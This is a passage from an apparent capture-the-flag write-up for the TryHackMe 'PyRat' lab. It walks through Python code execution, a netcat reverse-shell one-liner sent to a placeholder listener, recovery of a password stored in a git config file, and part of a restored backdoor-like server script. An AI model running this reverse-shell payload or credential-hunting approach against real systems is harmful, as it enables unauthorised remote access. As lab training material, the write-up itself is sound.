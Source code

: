 {{<figure src="/img/thm/pyrat/py_code_exec.webp" position=center caption="Python Code Execution">}}

We can see that the server executed our code. We can now try to get a reverse shell using the following one-liner payload:

```python
import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <LHOST> <LPORT> >/tmp/f")
```

{{<alert>}}
Don’t forget to replace `<LHOST>` and `<LPORT>` with the IP and Port of your listener.
{{</alert>}}

{{<figure src="/img/thm/pyrat/rev_shell.webp" position=center caption="Reverse shell">}}

We got a shell back!

## Privesc

### www-data -> think

After some exploration, we stumble upon an interesting folder at `/opt/dev`. Listing the contents of this folder we see that it’s a git repository.

When we try to execute basic git commands we get an error basically saying that this repo doesn’t belong to our user:

{{<figure src="/img/thm/pyrat/dubious_ownership_git.webp" position=center caption="Dubious ownership of the repository">}}

We can see that the user `think` is the owner of this repo.

With further digging, we find a password inside `/opt/dev/.git/config`:

{{<figure src="/img/thm/pyrat/think_user_password.webp" position=center caption="think's password found in /opt/dev/.git/config">}}

If we try this password with ssh, we are able to login to the machine as think and get the user flag at `/home/think/user.txt`:

{{<figure src="/img/thm/pyrat/user_flag.webp" position=center caption="User flag obtained !">}}

### think -> root

Now that we have a shell as think, let’s see what was in that git repository.

{{<figure src="/img/thm/pyrat/git_status.webp" position=center caption="Running git status">}}

We can see that there was a file named `pyrat.py.old`. 

After restoring it with `git restore pyrat.py.old`, we get the following python script:

```python
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
```